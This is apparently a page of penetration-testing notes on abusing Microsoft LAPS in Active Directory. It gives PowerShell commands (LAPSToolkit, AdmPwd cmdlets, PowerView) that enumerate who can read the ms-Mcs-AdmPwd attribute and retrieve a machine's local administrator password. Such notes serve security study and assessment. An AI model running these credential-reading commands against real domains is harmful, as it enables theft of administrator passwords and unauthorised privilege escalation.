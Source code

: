 ## LAPS Abuse

LAPS provides a solution to local administrator password re-use. If LAPS is in use, administrators passwords are set and randomly changed on a user-defined schedule. The Active Directory schema for the user has two new fields added: `ms-Mcs-AdmPwd` and `ms-Mcs-AdmPwdExpirationDate`. When the machine updates its GPO, it checks the `AdmPwdExpirationTime`. If it's in the past, the user's password gets updated.

It is possible to read this field if you have either a DACL on the `AdmPwd` field or if you are part of an OU that has the rights to read `AdmPwd` applied to it. If LAPS is in use, there will generally be a LAPS folder in `C:\Program Files`.

### Using LAPSToolkit

The LAPSToolkit is available at: 

https://github.com/leoloobeek/LAPSToolkit

Load it into memory or on disk and run it to identify computers/passwords using LAPS. It can also find groups that can read the `ms-Mcs-AdmPwd` attribute and find users with `AllExtendedRights` which also allows the user to view the LAPS password also.

```powershell
Get-LAPSComputers
Find-LAPSDelegatedGroups
Find-AdmPwdExtendedRights
```

### Attacking LAPS Manually

Naturally, being able to read the local administrator password presents attacking opportunities. You can check if the LAPS cmdlet is installed with the following Powershell command:

```powershell
Get-Command *AdmPwd*
```

If it is, you can start trying to enumerate it.

```powershell
# Ascertain which users/groups have ExtendedRights to view passwords on the Workstations OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# View the LAPS password on the dc04 machine
Get-AdmPwdPassword -ComputerName dc04
```

We can also use Powerview to enumerate LAPS rights - The SID outputs will have to be converted though.

```powershell
# Find SIDs where the user has LAPS rights over the workstations in the Workstations OU
Get-DomainObjectAcl -SearchBase "LDAP://OU=Workstations,DC=MATRIX,DC=LOCAL" -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -like "*ReadProperty*" } | select ObjectDN, SecurityIdentifier

# Convert the SID
ConvertFrom-SID S-1-5-21-3619591028-1129495842-3952564-1001>
```


